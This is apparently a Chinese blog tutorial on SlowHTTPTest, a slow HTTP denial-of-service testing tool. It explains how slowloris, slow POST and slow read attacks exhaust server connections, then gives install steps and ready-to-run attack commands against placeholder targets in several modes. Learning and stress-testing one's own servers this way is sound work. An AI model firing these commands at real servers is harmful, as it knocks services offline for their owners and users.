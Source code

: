 ```yaml
---
title: "SlowHTTPTest-慢速DoS攻击"
categories: [ "安全" ]
tags: [ "web安全" ]
draft: false
slug: "SlowHTTPTest-慢速DoS攻击-slowhttptest-慢速dos攻击"
date: "2017-04-08 07:35:35"
---
```




Slowhttptest是一个依赖于实际HTTP协议的Slow HTTP DoS攻击工具，它的设计原理是要求服务器所有请求被完全接收后再进行处理。

SlowHTTPTest是一款对服务器进行慢攻击的测试软件，所谓的慢攻击就是相对于cc或者DDoS的快而言的，并不是只有量大速度快才能把服务器搞挂，使用慢攻击有时候也能到达同一效果。slowhttptest包含了之前几种慢攻击的攻击方式，包括slowloris, Slow HTTP POST, Slow Read attack等。那么这些慢攻击工具的原理就是想办法让服务器等待，当服务器在保持连接等待时，自然就消耗了资源。

Slowhttptest的源码托管在Github：<https://github.com/shekyan/slowhttptest>

## 在Kali Linux上安装SlowHTTPTest

    # apt-get install slowhttptest 

如果你使用其他linux发行版，可以从源码编译安装：

    $ ./configure
    $ make
    $ sudo make install

## 使用示例

man手册：

    # man slowhttptest

帮助信息中提供了很多使用示例。

## slowloris模式：

    # slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u https://yourtarget.com/index.html -x 24 -p 3

![][1] 

生成图表(CSV和html格式)：

    slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u https://yourtarget.com/index.html -x 24 -p 3

## Slow Read模式：

    # slowhttptest -c 1000 -X -r 1000 -w 10 -y 20 -n 5 -z 32 -u http://yourtarget.com -p 5 -l 350 -e x.x.x.x:8080

x.x.x.x:8080是HTTP代理

## 实际测试

Slow Body攻击：

    # slowhttptest -c 1000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://www.mywebsite.com -x 10 -p 3

攻击开始，服务器端在几秒内的变化：

![][2]

 [1]: /uploads/oss/2017-04-25-14916370508816.png ""
 [2]: /uploads/oss/2017-04-25-14916371093087.png ""